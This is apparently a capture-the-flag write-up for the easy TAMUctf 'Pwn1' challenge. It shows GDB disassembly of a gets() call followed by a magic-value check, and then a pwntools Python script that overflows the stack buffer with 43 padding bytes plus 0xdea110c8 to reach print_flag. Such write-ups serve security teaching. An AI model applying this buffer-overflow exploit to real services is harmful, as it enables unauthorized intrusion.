

# Pwn1
## Points: 307
## Description: 

```
nc pwn.tamuctf.com 4321
Difficulty: easy
```

### GDB output showing target address:
```
  0x565558a6 <+301>:   lea    eax,[ebp-0x3b]
   0x565558a9 <+304>:   push   eax
   0x565558aa <+305>:   call   0x56555520 <gets@plt>
   0x565558af <+310>:   add    esp,0x10
   0x565558b2 <+313>:   cmp    DWORD PTR [ebp-0x10],0xdea110c8
   0x565558b9 <+320>:   jne    0x565558c2 <main+329>
   0x565558bb <+322>:   call   0x565556fd <print_flag>
   0x565558c0 <+327>:   jmp    0x565558d4 <main+347>
```

### Exploit code:

```
#!/usr/bin/python

from pwn import *

conn = remote('pwn.tamuctf.com', 4321)
print conn.recv()
conn.send('Sir Lancelot of Camelot\n')
print conn.recv()
conn.send('To seek the Holy Grail.\n')
print conn.recv()

buffer = "A"*43+"\xc8\x10\xa1\xde"
conn.send(buffer + "\n")
print conn.recv()

conn.close()
```

